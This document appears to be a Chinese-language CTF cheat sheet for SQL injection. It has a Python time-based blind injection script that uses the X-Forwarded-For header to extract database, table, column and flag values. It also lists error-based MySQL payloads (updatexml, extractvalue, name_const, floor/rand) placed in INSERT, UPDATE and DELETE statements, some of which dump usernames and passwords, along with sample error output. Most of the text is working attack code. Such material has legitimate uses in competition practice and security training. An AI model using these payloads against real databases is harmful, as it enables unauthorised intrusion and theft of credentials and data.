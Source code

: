# for-qiangwangbei
2018/3/23-for qiangwwangbei
一、盲注脚本
  1、sleep盲注

#coding:utf-8
import requests;
maystr="0987654321qwertyuiopasdfghjklzxcvbnm."
flag=''
for j in range(33):

    for i in maystr:
        url=""
        header={
            # "X-Forwarded-For":"' +(select case when (substring((select database())from %s for 1)='%s') then sleep(5) else 0 end) and 'Zkkp'='Zkkp" % (j,i)  #跑数据库的名字
            #"X-Forwarded-For":"' +(select case when (substring((select(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))) from %s for 1)='%s') then sleep(5) else 0 end) and 'Zkkp'='Zkkp" % (j,i)  #跑表明
            #"X-Forwarded-For":"' +(select case when (substring((select(select(group_concat(column_name))from(information_schema.columns)where(table_name=0x666C6167))) from %s for 1)='%s') then sleep(5) else 0 end) and 'Zkkp'='Zkkp" % (j,i) #跑字段名
            "X-Forwarded-For":"' +(select case when (substring((select flag from flag) from %s for 1)='%s') then sleep(5) else 0 end) and 'Zkkp'='Zkkp" % (j,i)  #跑记录
        }
        try:

            res=requests.get(url, headers=header,timeout=5).text
        except:

             flag+=i
             print flag
        # print res
  2、三种报错注入
    报错注入：
1、使用updatexml()函数  // xpath injection

　　1. 注入

　　a. 载荷格式 ：or updatexml(1,concat(0x7e,(version())),0) or

　　b. insert注入：INSERT INTO users (id, username, password) VALUES (2,‘Pseudo_Z‘ or updatexml(1,concat(0x7e,(version())),0) or‘‘, ‘security-eng‘);

　　c. update注入：UPDATE users SET password=‘security-eng‘ or updatexml(2,concat(0x7e,(version())),0) or‘‘ WHERE id=2 and username=‘Pseudo_Z‘;

　　d. delete注入：DELETE FROM users WHERE id=2 or updatexml(1,concat(0x7e,(version())),0) or‘‘;

　　2. 提取数据

　　a. 载荷格式：

　　or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or

　　b. insert提取表名：　　

INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or ‘‘, ‘ohmygod_is_r00tgrok‘);

c. insert提取列名

INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or updatexml(0,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name=‘users‘ limit 0,1)),0) or ‘‘, ‘ohmygod_is_r00tgrok‘);

 

　　d. insert进行dump

INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or updatexml(0,concat(0x7e,(SELECT concat_ws(‘:‘,id, username, password) FROM users limit 0,1)),0) or ‘‘, ‘ohmygod_is_r00tgrok‘);

e. delete进行dump

　　DELETE FROM users WHERE id=1 or updatexml(0,concat(0x7e,(SELECT concat_ws(‘:‘,id, username, password) FROM users limit 0,1)),0) or ‘‘;

　　f.update进行dump ? 

　　同一个表不能用update进行dump，不同的表却可以

　　UPDATE students SET name=‘Nicky‘ or Updatexml(1,concat(0x7e,(SELECT concat_ws(‘:‘,id, username, password) FROM newdb.users limit 0,1)),0) or‘‘ 　　WHERE id=1;



2、 使用extractvalue()函数

　　a. 载荷格式：or extractvalue(1,concat(0x7e,database())) or

　　b. 注入：

　　　INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or extractvalue(1,concat(0x7e,database())) or‘‘, ‘Pseudo_Z‘);

　　  UPDATE users SET password=‘Nicky‘ or extractvalue(1,concat(0x7e,database())) or‘‘ WHERE id=2 and username=‘Pseudo_Z‘;

　　  DELETE FROM users WHERE id=1 or extractvalue(1,concat(0x7e,database())) or‘‘; 

 

　　c.提取数据　

INSERT INTO users (id, username, password) VALUES (2,‘r00tgrok‘ or extractvalue(1,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1))) or‘‘, ‘balabala‘);

　　dump操作及update、delete方法同上updatexml()

 

0x4 使用name_const() //5.0.13中引入，返回任何给定的值

　　a. 载荷格式： or (SELECT*FROM(SELECT(name_const(version(),1)),name_const(version(),1))a) or

　　b. 注入：　　

UPDATE users SET password=‘Nicky‘ or (SELECT*FROM(SELECT(name_const(version(),1)),name_const(version(),1))a) or ‘‘ WHERE 
id=2 and username=‘Pseudo_Z‘;

c. 提取数据

INSERT INTO users (id, username, password) VALUES (1,‘admin‘ or (SELECT*FROM(SELECT name_const((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),1),name_const(( SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),1))a) or ‘‘, ‘oyyoug0d‘);



4、通过floor报错
可以通过如下一些利用代码
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
and (select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2)));
举例如下：
首先进行正常查询：
mysql> select * from article where id = 1;
+----+-------+---------+
| id | title | content |
+----+-------+---------+
| 1 | test | do it |
+----+-------+---------+
假如id输入存在注入的话，可以通过如下语句进行报错。
mysql> select * from article where id = 1 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '5.1.33-community-log1' for key 'group_key'
可以看到成功爆出了Mysql的版本，如果需要查询其他数据，可以通过修改version()所在位置语句进行查询。
例如我们需要查询管理员用户名和密码：
Method1:
mysql> select * from article where id = 1 and (select 1 from (select count(*),concat((select pass from admin where id =1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry 'admin8881' for key 'group_key'
Method2:
mysql> select * from article where id = 1 and (select count(*) from (select 1 union select null union select !1)x group by concat((select pass from admin limit 1),floor(rand(0)*2)));
ERROR 1062 (23000): Duplicate entry 'admin8881' for key 'group_key'
